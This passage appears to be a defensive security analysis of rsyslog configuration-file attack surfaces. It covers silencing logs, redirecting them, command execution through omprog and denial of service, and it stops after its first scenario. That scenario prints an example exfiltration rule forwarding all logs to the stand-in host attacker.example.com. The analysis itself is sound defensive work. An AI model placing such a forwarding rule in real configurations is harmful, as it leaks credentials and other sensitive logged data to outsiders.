 ## Deep Analysis: Rsyslog Configuration File Vulnerabilities

As a cybersecurity expert working with your development team, let's delve into a deep analysis of the "Configuration File Vulnerabilities" attack surface for your application utilizing `rsyslog`. This is a critical area due to the central role `rsyslog` plays in logging and system monitoring.

**Expanding on the Attack Surface Description:**

The core issue lies in the inherent trust `rsyslog` places in its configuration file (`rsyslog.conf` or files included within it). If an attacker can manipulate this file, they effectively gain control over how the system perceives and records events. This control can be leveraged for various malicious purposes, going far beyond simply redirecting logs.

**Detailed Breakdown of How Rsyslog Contributes to the Vulnerability:**

* **Centralized Control:** `rsyslog.conf` acts as the central nervous system for log processing. It defines:
    * **Input Modules:** Where logs come from (e.g., system logs, application logs, network devices).
    * **Processing Rules:** How logs are filtered, parsed, and transformed.
    * **Output Modules:** Where logs are sent (e.g., local files, remote servers, databases, message queues).
    * **Conditional Logic:**  Using directives like `if`, `then`, `else`, and property-based filters, the configuration can dictate different actions based on log content.
    * **Program Execution:** Modules like `omprog` allow the execution of arbitrary commands based on log events.

* **Powerful Directives:** The rich set of directives within `rsyslog.conf` provides attackers with a wide range of manipulation possibilities. They can:
    * **Silence Critical Logs:**  Comment out or modify rules to prevent the logging of their malicious activities, hindering detection and forensic analysis.
    * **Redirect Logs:** Send logs to attacker-controlled servers for exfiltration of sensitive information.
    * **Inject Malicious Content:** Modify log formats or add fake log entries to mislead administrators or inject malicious code if logs are processed by other vulnerable systems.
    * **Execute Arbitrary Commands:**  The `omprog` module is a prime target. By crafting specific log patterns, attackers can trigger the execution of arbitrary commands with the privileges of the `rsyslog` process (typically root).
    * **Denial of Service (DoS):** Configure `rsyslog` to consume excessive resources (e.g., by forwarding logs to non-existent servers or triggering resource-intensive processing), leading to system instability.

**Deep Dive into Attack Scenarios and Examples:**

Let's expand on the example provided and explore other potential attack scenarios:

* **Scenario 1: Data Exfiltration via Log Redirection:**
    * **Attack Vector:** Exploiting a vulnerability in a web application allows an attacker to gain a foothold on the server.
    * **Rsyslog Manipulation:** The attacker modifies `rsyslog.conf` to add a rule like:
        ```
        *.* action(type="omfwd" target="attacker.example.com" port="514" protocol="tcp")
        ```
    * **Impact:** All logs, potentially including sensitive data like database connection strings, API keys, user credentials (if inadvertently logged), are now being sent to the attacker's server.
